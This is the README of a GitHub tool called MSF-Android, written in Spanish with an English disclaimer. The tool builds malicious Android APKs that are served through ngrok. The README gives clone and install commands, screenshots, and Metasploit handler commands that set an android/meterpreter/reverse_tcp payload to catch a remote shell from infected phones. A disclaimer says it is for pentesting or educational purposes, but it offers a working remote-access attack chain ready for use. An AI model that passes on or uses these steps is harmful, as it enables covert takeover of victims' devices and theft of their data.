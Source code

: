 # MSF-Android

Generador de APK's maliciosas para Android | local y remoto.

![msf_android](https://user-images.githubusercontent.com/75953873/156859921-fb62e471-16e6-43f9-809c-245d9ccf57ea.png)

## 📷 SCREENSHOTS 

### Instalando NGROK:
![download_ngrok](https://user-images.githubusercontent.com/75953873/156859956-3ff26083-f760-4f0b-8601-bc3522d069bf.png)


### Creando APK:
![ngrok](https://user-images.githubusercontent.com/75953873/156860013-d3fb2582-7b6a-4ccf-90ff-cdd2084173f7.png)


### Obteniendo enlace **`LOCAL`** && **`REMOTO`**:
![downloadAPK](https://user-images.githubusercontent.com/75953873/156860044-338999aa-7bb6-4e50-9bfe-551bfe7ed5ce.png)

### Obteniendo una sesión meterpreter
![exploit](https://user-images.githubusercontent.com/75953873/156860066-cb01fbe7-8b91-4666-9cb7-02188ad603ac.png)

##### Abrimos una nueva terminal y ejecutamos:
```
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> run
```
![exploit_2](https://user-images.githubusercontent.com/75953873/156860088-75dcb013-275e-4c35-a924-3c1054eba630.png)


## Instalación / Installation

```
> git clone https://github.com/R3LI4NT/MSF-Android
> cd MSF-Android
> pip3 install -r requirements.txt
> sudo python3 msfandroid.py
```


### Importante

**`ES:`** No me hago responsable del mal uso que se le pueda dar a esta herramienta, úselo para Pentesting o fines educativos.

**`EN:`**  I am not responsible for the misuse that may be given to this tool, use it for Pentesting or educational purposes.

